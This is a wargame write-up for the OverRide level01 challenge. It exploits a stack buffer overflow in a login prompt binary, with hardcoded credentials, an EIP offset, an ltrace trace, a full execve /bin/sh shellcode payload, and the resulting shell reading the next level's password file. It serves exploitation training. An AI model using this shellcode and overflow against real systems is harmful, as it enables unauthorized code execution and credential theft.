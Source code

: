 The program displays a prompt before asking the user for its username. The input is then checked and well, bad luck, my input is not valid. So let's look at the assembly code.

There are three functions: main(), verify_user_name() and verify_user_pass(). Please check the [source code](../source.c) for more details. If we look closely, we can see that the credentials appear in hard copy in the code. Thus the expected username is "dat_wil" and the password is "admin". But we can also see that the code is broken: when filling in the proper password, the program still displays an error message. Anyway, this is not the way to pass this level.

Looking at the reconstructed source code, we see that the second fgets() writes up to 100 bytes in a local variable that can only hold 64 bytes. We can therefore carry out a buffer overflow attack and overwrite the address pointed to by EIP.

We find with the help of gdb that the offset of EIP is 80 bytes. Moreover, we find the address of the local variable (0xffffd6cc) using the ltrace command:
```
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10316, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***")                                                = 39
printf("Enter Username: ")                                                              = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)                                                     = 0x0804a040
puts("verifying username....\n"verifying username....)                                  = 24
puts("Enter Password: ")                                                                = 17
fgets("admin\n", 100, 0xf7fcfac0)                                                       = 0xffffd6cc
puts("nope, incorrect password...\n")                                                   = 29
+++ exited (status 1) +++
```

Now we just have to write or find a shellcode. On [this website](https://shell-storm.org/shellcode/), we find a lot of ready-to-use shellcodes. [This one](https://shell-storm.org/shellcode/files/shellcode-841.php) corresponds to what we want to do. It is 21 bytes long so we will need to complete our input with 59 bytes of padding in order to reach EIP. We will then pass the address of the local variable so that our shellcode becomes the next instruction in the program. The address must be written in the little endian convention in order to be readable by the computer. 

```
level01@OverRide:~$ python -c 'print "dat_wil\n" + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + 59 * "A" + "\xcc\xd6\xff\xff"' > /tmp/exp
```

In order to keep the shell open, we add a dash ('-') at the end of the cat command, in order to keep reading on the standard input until it meets an EOF ('^D') character:
```
level01@OverRide:~$ cat /tmp/exp - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02    
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
We can now reach the next level with the command `su level02` and fill in the flag found as a password.